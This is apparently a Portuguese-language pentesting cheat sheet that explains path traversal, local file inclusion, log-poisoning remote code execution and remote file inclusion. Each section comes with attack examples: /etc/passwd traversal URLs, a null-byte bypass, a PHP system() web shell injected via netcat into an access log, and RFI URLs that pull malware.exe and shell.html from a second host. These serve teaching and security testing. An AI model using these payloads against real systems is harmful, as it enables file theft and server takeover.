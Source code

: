 # Full Path Disclosure | Path Traversal | Directory Traversal
Path Traversal ou Directory Traversal é uma vulnerabilidade que ocorre quando é possível navegar entre diretórios através de um parâmetro GET na URL usando o comando "../" para listar todos os diretórios anteriores. Através dessa vulnerabilidade, é possível encontrar arquivos sensíveis que, se colocados na URL, podem visualizar seu conteúdo e encontrar informações confidenciais.

Exemplo: http://172.16.1.10/turismo/logado.php?banners=../../../../../../../etc/passwd
## Local File Inclusion (LFI)
Local File Inclusion ocorre quando o usuário consegue incluir e executar arquivos locais no servidor, manipulando os parâmetros da solicitação para incluir arquivos maliciosos no código do aplicativo. Em códigos que adicionam uma extensão de arquivo ao final da solicitação, é possível contornar isso adicionando um byte nulo (%00) ao final da solicitação.

Exemplo: http://172.16.1.231/index.php?page=../../../../../../../etc/passwd%00
### Remote Code Execution através de LFI
Remote code injection através do arquivo de logs do servidor (/var/log/apachje2/access.log) é possível se o servidor interpretar o código passado para o log. No exemplo a seguir, o código chama a função do sistema e, por meio do parâmetro GET, executa o código passado remotamente no servidor.

Código para enviar ao servidor: `nc -v 172.16.1.10 80 -C` -> Código PHP
Código PHP: `<?php system($_GET['parameter']); ?>`

## Remote File Inclusion (RFI)
Remote File Inclusion ocorre quando o servidor executa código remotamente de outro servidor, então é possível fazer upload de um servidor e enviar código malicioso para o servidor, para executar código remotamente por meio de um parâmetro, assim como no RCE por meio de LFI

Exemplo: http://172.16.1.10/turismo/link.php?link=http://172.16.1.30:8080/malware.exe
Exemplo: http://172.16.1.10/turismo/link.php?link=http://172.16.1.30:8080/shell.html&hack=id